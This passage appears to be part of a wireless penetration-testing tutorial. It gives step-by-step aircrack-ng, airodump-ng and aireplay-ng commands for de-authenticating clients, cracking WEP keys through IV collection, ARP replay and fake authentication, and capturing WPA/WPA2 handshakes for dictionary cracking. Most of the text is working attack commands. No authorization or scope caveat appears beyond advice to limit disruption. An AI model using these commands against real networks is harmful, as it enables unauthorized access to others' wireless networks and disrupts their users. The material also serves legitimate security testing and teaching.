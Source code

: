 **Best Practices for De-authentication:**
- Use minimal deauthentication packets (5-10) to avoid unnecessary disruption
- Target specific clients when possible to reduce network impact
- Run airodump-ng simultaneously to capture the WPA handshake

### Cracking WEP Networks

WEP networks, though increasingly rare, can be cracked through several techniques:

**Passive Attack (IV Collection):**
```bash
# Capture packets
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep_capture wlan0mon

# Crack when sufficient IVs are collected (300,000+)
sudo aircrack-ng wep_capture-01.cap
```

**Active Attack (ARP Replay):**
```bash
# Capture packets
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wep_capture wlan0mon

# Wait for an ARP packet, then replay it
sudo aireplay-ng -3 -b 00:11:22:33:44:55 wlan0mon

# Crack when sufficient IVs are collected
sudo aircrack-ng wep_capture-01.cap
```

**Active Attack (Fake Authentication):**
```bash
# Authenticate to network
sudo aireplay-ng -1 0 -e "WEP_Network" -a 00:11:22:33:44:55 -h 02:00:00:00:00:00 wlan0mon

# Perform ARP replay attack
sudo aireplay-ng -3 -b 00:11:22:33:44:55 -h 02:00:00:00:00:00 wlan0mon
```

### Cracking WPA/WPA2 Networks

WPA/WPA2 networks require capturing a 4-way handshake, then performing dictionary or brute-force attacks:

```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w wpa_capture wlan0mon

# Send deauthentication to force handshake
sudo aireplay-ng -0 10 -a 00:11:22:33:44:55 wlan0mon

# Crack with dictionary attack
sudo aircrack-ng -w wordlist.txt wpa_capture-01.cap
```
